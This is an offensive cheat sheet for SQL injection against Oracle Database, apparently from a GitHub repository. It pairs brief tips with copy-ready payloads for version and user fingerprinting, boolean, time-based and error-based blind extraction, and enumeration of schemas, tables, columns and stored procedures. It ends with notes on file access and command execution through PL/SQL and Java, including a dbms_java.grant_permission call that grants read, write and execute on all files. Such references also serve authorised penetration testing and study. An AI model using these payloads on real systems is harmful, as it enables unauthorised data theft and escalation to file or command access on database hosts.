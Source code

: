 # SQLi for [Oracle DB](https://www.oracle.com/database/)

## Things to remember
  *  [Oracle DB has a more complex architecture](https://docs.oracle.com/en/database/oracle/oracle-database/23/dbiad/db_dbserver.html)
  *  HackTricks has a [multiple](https://book.hacktricks.xyz/pentesting-web/sql-injection/oracle-injection) [pages](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener) covering Oracle
  *  **EVERYTHING** is case sensitive
      *  [`LOWER()`](https://docs.oracle.com/en/database/oracle/oracle-database/19/sqlrf/LOWER.html)/[`UPPER()`](https://docs.oracle.com/en/database/oracle/oracle-database/19/sqlrf/UPPER.html) to ensure matching cases during comparisons
  *  Boolean and time-based injections are versatile... get creative!

## Common errors
  *  `ORA-00904: invalid identifier` caused by string literals being wrapped in double quotes: use single
  *  `ORA-00907: missing right parenthesis` caused by injection point being wrapped in function calls
      *  Add closing parenthesis until wrapping function calls are complete

## DBMS instance details
  *  DBMS version, current user/schema, data directory, etc.
  *  Lots of other info available using [`sys_context()`](https://docs.oracle.com/cd/B14117_01/server.101/b10759/functions150.htm)
  *  Data directories used to [store Oracle stuff](https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_1050.htm#i1576965)
      *  Only shows directories of current schema/user

```
(SELECT LISTAGG(banner, ', ') from v$version)
(SELECT USER FROM DUAL)
(SELECT LISTAGG(DIRECTORY_PATH, ', ') FROM ALL_DIRECTORIES)
(SELECT sys_context('USERENV', 'DB_NAME') FROM DUAL)
```

## Boolean-based blind
  *  Infer DB contents from true/false responses
  *  A simple way to induce this type of response is to use `OR`/`AND` operators
      *  More complex ways could also exist depending on the application
  *  Oracle DB version `23c` introduced `boolean` [datatypes](https://docs.oracle.com/en/database/oracle/oracle-database/23/sqlrf/Data-Types.html)
      *  Older version? Try comparing `int`
  *  Encode case-sensitive strings to hex using [`RAWTOHEX()`](https://docs.oracle.com/en/database/oracle/oracle-database/19/sqlrf/RAWTOHEX.html)

```
(SELECT TRUE FROM DUAL WHERE LOWER(USER) LIKE LOWER('%'))
(SELECT 1 FROM DUAL WHERE LOWER(USER) LIKE LOWER('%'))
(SELECT 1 FROM DUAL WHERE LOWER(RAWTOHEX(USER)) LIKE LOWER('%'))
(SELECT 1 WHERE ASCII(SUBSTR(LOWER(USER), 1, 1)) < 127)
```

## Time-based blind
  *  Infer DB contents by forcing the server to wait and measuring response times
  *  A simple way to induce this type of response is to use `OR`/`AND` operators
      *  More complex ways could also exist depending on the application
  *  There is no dedicated sleep function within Oracle DB
      *  Heavy queries can be used to induce a delay before DB response
      *  Increment number of table reads until consistent delay is achieved
      *  [Other methods exist](https://media.defcon.org/DEF%20CON%2016/DEF%20CON%2016%20presentations/DEF%20CON%2016%20-%20alonso-parada-wp.pdf) but some may require extra privileges
  *  Encode case-sensitive strings to hex using `RAWTOHEX()`

```
(SELECT CASE WHEN ((SELECT LOWER(USER)) LIKE LOWER('%')) THEN (SELECT COUNT(*) FROM ALL_USERS A, ALL_USERS B, ALL_USERS C, ALL_USERS D, ALL_USERS E, ALL_USERS F) ELSE NULL END FROM DUAL)
(SELECT CASE WHEN (ASCII(SUBSTR(LOWER(USER), 1, 1)) < 127) THEN (SELECT COUNT(*) FROM ALL_USERS A, ALL_USERS B, ALL_USERS C, ALL_USERS D, ALL_USERS E, ALL_USERS F) ELSE NULL END FROM DUAL)
```

## Error-based
  *  Cause an error that contains the result of a subquery
      *  Useful if errors are rendered on the page
  *  `OR`/`AND` operators useful to include error-causing functions
  *  [PayloadsAllTheThings has a section](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md#oracle-sql-error-based) covering this
  *  [`CTXSYS.DRITHSX.SN()`](https://github.com/sqlmapproject/sqlmap/blob/2f01cbf71fcd48bb20f9394ff6f088211305277e/data/xml/payloads/error_based.xml#L629) function useful for intentionally causing errors
      *  The function example listed below is **NOT** used correctly... duh!

```
1=CTXSYS.DRITHSX.SN(1,(SELECT USER FROM DUAL))
```

## Enumerate PDBs, schemas, tables, and columns
  *  List current or all PDBS
      *  Requires extra privileges
      *  [`LISTAGG()`](https://docs.oracle.com/en/database/oracle/oracle-database/21/sqlrf/LISTAGG.html) used to return single-value from subquery
      *  Must have privs to read [`DBA_PDBS`](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/DBA_PDBS.html) table/view to dump all PDBS
  *  List current or all schemas
      *  Does **NOT** require extra privileges
      *  Since a schema is created for every user, you can just list users
  *  List all tables or all tables within a given schema
      *  [`USER_TABLES`](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/USER_TABLES.html) for tables owned by current user
      *  [`ALL_TABLES`](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html) for tables accessible by current user
      *  [`DBA_TABLES`](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/DBA_TABLES.html) for all tables, requires extra privileges
  *  List all columns within a given table
      *  [`JSON_ARRAYAGG()`](https://docs.oracle.com/en/database/oracle/oracle-database/23/sqlrf/JSON_ARRAYAGG.html) used to return single-value from subquery

```
(SELECT sys_context('USERENV', 'DB_NAME') FROM DUAL)
(SELECT LISTAGG(pdb_name, ', ') FROM dba_pdbs)
(SELECT USER)
(SELECT LISTAGG(username, ', ') from ALL_USERS)
(SELECT LISTAGG(table_name, ', ') FROM USER_TABLES)
(SELECT LISTAGG(owner || '.' || table_name, ', ') FROM ALL_TABLES WHERE owner=UPPER('exampleSchema'))
(SELECT LISTAGG(owner || '.' || table_name, ', ') FROM DBA_TABLES)
(SELECT JSON_ARRAYAGG(COLUMN_NAME || ':' || DATA_TYPE) FROM SYS.ALL_TAB_COLUMNS WHERE TABLE_NAME=UPPER('exampleTable'))
```

## System interaction
  *  System interaction in Oracle DB is primarily achieved via [PL/SQL](https://www.oracle.com/database/technologies/appdev/plsql.html)
      *  PL/SQL cannot be invoked directly from `SELECT` or similar (no stacked queries)
      *  PL/SQL [stored procedures](https://docs.oracle.com/en/database/other-databases/timesten/22.1/plsql-developer/pl-sql-procedures-and-functions.html) can be vulnerable to [PL/SQL injection](https://www.sqlinjection.net/advanced/pl-sql/)
      *  A stored procedure must have a function to be injectable from a `SELECT` statement
  *  Enumerate procedures/functions and attempt to inject arbitrary PL/SQL
      *  [`USER_PROCEDURES`](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/USER_PROCEDURES.html) for procedures/functions owned by current user
      *  [`ALL_PROCEDURES`](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_PROCEDURES.html) for procedures/functions accessible by current user
      *  [`DBA_PROCEDURES`](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/DBA_PROCEDURES.html) for all procedures/functions, requires extra privileges
  *  File read/write and command execution all rely on PL/SQL
      *  Oracle DB PL/SQL supports [compiling Java code into stored procedures](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#oracle)
      *  Leveraging Java for a reverse shell within PL/SQL can be difficult due to TTY issues
      *  If Java is not supported/installed [UTL_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/23/arpls/UTL_FILE.html#GUID-EBC42A36-EB72-4AA1-B75F-8CF4BC6E29B4) could be used for arbitrary file read
      *  Before files can be read/written/executed [`dbms_java.grant_permission`](https://docs.oracle.com/en/database/oracle/oracle-database/23/jjdev/DBMS-JAVA-package.html) must be invoked

```
(SELECT LISTAGG(object_name, ', ') FROM user_procedures)
(SELECT LISTAGG(owner || '.' || object_name, ', ') FROM all_procedures)
(SELECT LISTAGG(owner || '.' || object_name, ', ') FROM all_procedures WHERE OBJECT_TYPE = UPPER('PROCEDURE'))
(SELECT LISTAGG(owner || '.' || object_name, ', ') FROM dba_procedures WHERE OBJECT_TYPE = UPPER('PROCEDURE'))
dbms_java.grant_permission('exampleSchema', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'read,write,execute')
```
